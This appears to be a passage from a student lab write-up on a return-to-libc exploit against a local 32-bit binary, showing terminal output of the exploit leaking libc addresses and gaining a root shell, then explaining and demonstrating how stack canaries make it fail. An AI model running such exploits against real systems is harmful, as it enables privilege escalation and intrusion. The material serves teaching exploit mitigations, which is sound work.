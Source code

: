 ```shell
$ cat /proc/sys/kernel/randomize_va_space
2
$ python /vagrant/assignment1/task1-exploit.py
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process '/home/vagrant/retlib': pid 9721
[*] Stage 1 sent!
[*] puts@libc: 0xb76527e0
[*] libc base: 0xb75ed000
[*] system@libc: 0xb762d310
[*] binsh@libc: 0xb774fcec
[*] exit@libc: 0xb7620260
[*] Stage 2 sent!
[+] Enjoy your shell.
[*] Switching to interactive mode
$ id
uid=1000(vagrant) gid=1000(vagrant) euid=0(root) groups=0(root),1000(vagrant)
$
[*] Stopped process '/home/vagrant/retlib' (pid 9721)
```

## Stack Canaries

Since the vulnerability stems from a buffer overrun, introducing a stack canary
to detect corruption of the stack frame will prevent the attacker from
controlling the instruction pointer without having an information leak. The
exploit in task 1 has no such capability and thus, will fail.

Unfortunately, the binary does not grant such an information leak so there is no
way to write a reliable exploit to get a shell.

```shell
$ checksec retlib-canary
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/home/vagrant/retlib-canary'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$ python /vagrant/assignment1/task3-exploit-canary.py
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process 'retlib-canary': pid 9883
[*] Stage 1 sent!
[*] puts@libc: 0x202a2a2a
[*] libc base: 0x2023d24a
[*] system@libc: 0x2027d55a
[*] binsh@libc: 0x2039ff36
[*] exit@libc: 0x202704aa
[*] Stage 2 sent!
[+] Enjoy your shell.
[*] Switching to interactive mode
stack smashing detected ***: /home/vagrant/retlib-canary terminated
Aborted (core dumped)
[*] Process 'retlib-canary' stopped with exit code 134 (pid 9883)
[*] Got EOF while reading in interactive
$
```
